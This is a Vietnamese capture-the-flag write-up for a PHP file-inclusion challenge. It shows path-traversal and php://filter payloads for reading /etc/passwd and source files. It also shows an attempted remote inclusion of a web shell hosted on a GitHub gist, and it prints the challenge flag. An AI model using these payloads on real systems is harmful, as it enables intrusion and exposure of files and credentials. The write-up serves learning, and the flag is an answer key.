









# Mỳ Tôm Thanh Long 
Giao diện trang web như sau: 

>Đi dạo một vòng website thì mình thấy nó hoạt động dựa vào trang chủ rồi import các page , có tên được truyền từ URL => 

Mình nghĩ ngay đến LFI VÀ RFI 
đầu tiên mình phải comfirm nó bị **Path Traversal** => tiến hành fuzzing để đọc  file ** /etc/passwd ** 

thử payload  : 
```
?page=../..pages/home.php
```
nó log ra lỗi => là nó dùng hàm include , mà hàm này nếu cofig *allow_url_include* bật thì mình có thể rce ( mình đoán src code của file flag.php chứa flag , chứ đâu web đâu ai đặt tên category là flag đúng không :>)
fuzz thử 1 web shell php lên xem thử : 
payload : 
```
page=https://gist.githubusercontent.com/joswr1ght/22f40787de19d80d110b37fb79ac3985/raw/50008b4501ccb7f804a61bc2e1a3d1df1cb403c4/easy-simple-php-webshell.php
```
nó trả về  : 

vậy là tham số này nó đã off -> không rce được , chúng ta cùng nghĩ cách khác 

Bắt đầu ném vào intruder trong Burp để fuzz đọc file /etc/passwd
payload position chính là value của parameter page 

word list thì mình lấy của burp luôn -> nhớ đổi {FILE} thành /etc/passwd bằng chắc năng *match/replace* trong payload processing 
kết quả :

bước đầu mình đã comfirm được nó bị path travesal 
Không RFI được thì mình test LFI -> mình nghĩ đến PHP wrapper để đọc file 
payload : 
```
php://filter/convert.base64-encode/resource=index.php
```
output : 

decode đoạn base64 đó ta được  src của index.php 

giờ ta thử đọc flag.php xem có đúng mình đoán không : >  flag.php thì nằm trong folder pages nên payload là :
```
php://filter/convert.base64-encode/resource=pages/flag.php
```
output:

send nó qua Decoder 
và đã có flag 

# FLAG 
**  KCSC{Lan_Dau_Tien_Trai_Thanh_Long_Co_Trong_KCSC:))} **
